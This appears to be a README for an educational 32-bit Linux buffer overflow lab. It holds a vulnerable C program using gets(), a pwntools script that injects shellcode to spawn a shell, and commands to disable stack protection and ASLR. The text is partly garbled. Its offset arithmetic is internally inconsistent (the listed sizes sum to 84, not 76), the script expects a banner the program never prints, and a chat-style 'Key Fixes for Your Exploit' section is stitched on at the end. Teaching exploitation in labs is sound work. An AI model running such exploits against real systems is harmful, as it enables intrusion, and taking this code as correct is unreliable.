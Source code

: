 # Buffer Overflow Exploit (32-bit Linux)

A demonstration of a **stack-based buffer overflow** exploit against a vulnerable C program, spawning a shell via shellcode injection.

## 📋 Prerequisites
- **Linux environment** (Tested on WSL2 x86_64, but targets 32-bit binaries).
- Python 3.x with `pwntools` installed:
  ```bash
  pip install pwntools
32-bit GCC (to compile the vulnerable program):

bash
sudo apt install gcc-multilib
🎯 Vulnerable Program
Source: vuln.c

c
#include <stdio.h>
#include <string.h>

void vuln() {
    char buffer[64];
    gets(buffer); // No bounds checking!
}

int main() {
    printf("Welcome to vulnerable program!\n");
    vuln();
    return 0;
}
Compilation
Disable stack protections for the lab:

bash
gcc -m32 -fno-stack-protector -z execstack vuln.c -o vuln_binary
💥 Exploit Script
File: exploit.py
Uses pwntools to inject shellcode and hijack control flow.

python
from pwn import *

context(os='linux', arch='i386')
binary = './vuln_binary'
elf = ELF(binary)

# Start process
p = process(binary)

# Shellcode (executes /bin/sh)
shellcode = asm(shellcraft.sh())
nop_sled = b"\x90" * 16  # NOP sled for reliability

# Payload structure
offset = 76  # 64 buffer + 12 padding + 4 EBP + 4 RET
buffer_addr = 0xffffd510  # REPLACE with your buffer's address (find via GDB)

payload = nop_sled + shellcode
payload += b"A" * (offset - len(nop_sled) - len(shellcode))
payload += p32(buffer_addr)  # Overwrite RET to jump to shellcode

p.sendlineafter("Welcome!\n", payload)
p.interactive()  # Spawns shell if successful
🔍 Debugging Notes
Find buffer Address:

bash
gdb ./vuln_binary
b vuln
run
print &buffer
Update buffer_addr in the exploit script with this value.

Common Issues:

Segmentation Fault (SIGSEGV): Incorrect return address or misaligned payload.

ASLR: Disable it for testing:

bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
🚀 Expected Output
Successful exploit grants a shell:

bash
$ whoami
your_username
📜 License
MIT

text

---

### 🔧 **Key Fixes for Your Exploit**  
1. **Confirm `buffer` Address**:  
   - Run `gdb ./vuln_binary`, set a breakpoint at `vuln()`, and check `&buffer`.  
   - Replace `0xffffd510` in the script with the actual address.  

2. **Check Payload Alignment**:  
   - Ensure `offset` is correct (76 bytes for 32-bit: `64 buffer + 12 filler + 4 EBP + 4 RET`).  

3. **Debug with GDB**:  
   ```bash
   gdb -q ./vuln_binary
   run < <(python3 exploit.py)
